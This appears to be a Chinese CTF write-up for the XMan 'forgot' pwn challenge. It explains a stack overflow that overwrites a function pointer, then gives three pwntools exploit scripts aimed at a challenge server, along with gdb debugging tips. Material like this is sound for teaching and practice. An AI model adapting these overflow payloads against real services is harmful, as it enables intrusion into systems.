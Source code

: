 # XMan forgot writeup

![在这里插入图片描述](https://img-blog.csdnimg.cn/20190708074114251.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzMTg5NzU3,size_16,color_FFFFFF,t_70)
根据ida反汇编的结果可以发现有两处溢出点，第一处溢出点没什么作用，只能观察第二处溢出点
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190708074419714.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzMTg5NzU3,size_16,color_FFFFFF,t_70)
可以观察到箭头处是个函数指针，&v3 是v3在栈上的地址，&v3 + --v14 是根据&v3在栈上移动，上面的for循环是用来改变v14的值，根据溢出点函数指针v3到v12 ，变量v14都可以被我们控制，接下来再找找有没有system函数
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190708075022550.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzMTg5NzU3,size_16,color_FFFFFF,t_70)
发现目标函数，接下来我的想法是利用缓冲区溢出把函数指针v12 覆盖为地址0x080486cc,接下来再控制v14的值为10， 那么 &v3+ --v14 便会指向
v12，随后cat flag

*1.scanf不能接受空格、制表符Tab、回车等；对末尾回车符的处理：把回车符保留在缓存中。
gets能够接受空格、制表符Tab和回车等；对末尾回车符的处理：接收回车，但把回车替换为\0。
2.scanf ：当遇到回车，空格和tab键会自动在字符串后面添加'\0'，但是回车，空格和tab键仍会留在输入的缓冲区中。
gets：可接受回车键之前输入的所有字符，并用'\n'替代 '\0'.回车键不会留在输入缓冲区中*

**exp:**

```python
from pwn import *

context.log_level = 'debug'
c = remote("111.198.29.45", 31755)

payload = 'a'*0x44 + p32(0x080486CC) + 'a'*0x20 + p32(0x8)
##&v3 + --v14 = v12的地址 因为根据循环可知只要循环次数够多最终v14会为10 则为v3后面第九个 为v12地址（1、按照个数 在栈中v2最靠近顶部（下） v12在上面 溢出的时候从下面往上走 2、按照边上的加多少一眼看出阿来）
##0x44正好一直覆盖到v12 p32（system函数的调用地址） a*20 + p32正好把v14变成8 其实5-8都可以 因为原来的值不可以突破封锁 9是因为p32之后变成\t a变成\n d \r 所以会变成0xff 0xff 0xff 0xff
## a > 96 a<122 所以可以通过sub_8048784

c.recvuntil(">")
c.sendline("bbb")

c.sendlineafter("> ", payload)

c.interactive()
12345678910111213
```

**flag:**

![在这里插入图片描述](https://img-blog.csdnimg.cn/20190708075926115.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzMTg5NzU3,size_16,color_FFFFFF,t_70)



### 法二
```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
context(arch = 'i386', os = 'linux')
r = remote('111.198.29.45', 32048)
overflow = "A"*63
addr = 0x080486cc
overflow += p32(addr)
r.send(overflow + "\n")
r.recvuntil("Enter the string to be validate")
flag = r.recv()
print "[*] Flag: " + flag
r.close()
```

### gdb调试
1. 首先debug写法
```python
from pwn import *

context.log_level="debug"
context.arch = "amd64"
pwn_file="./forgot"
elf=ELF(pwn_file)

if len(sys.argv)==1:
    c=process(pwn_file)
    pid=c.pid
else:
    c=remote("111.198.29.45", 37389)
    pid=0

def debug():
    log.debug("process pid:%d"%pid)
    pause()

payload = 'a'*0x44 + p32(0x080486CC) + 'a'*0x20 + p32(0x8)
c.recvuntil(">")
c.sendline("bbb")
c.sendlineafter("> ", payload)
c.interactive()
```
2. 两个shell 运行脚本 运行gbd attach pid
3. b \*地址 info registers watch \*地址 p/x \*地址 x/x 地址 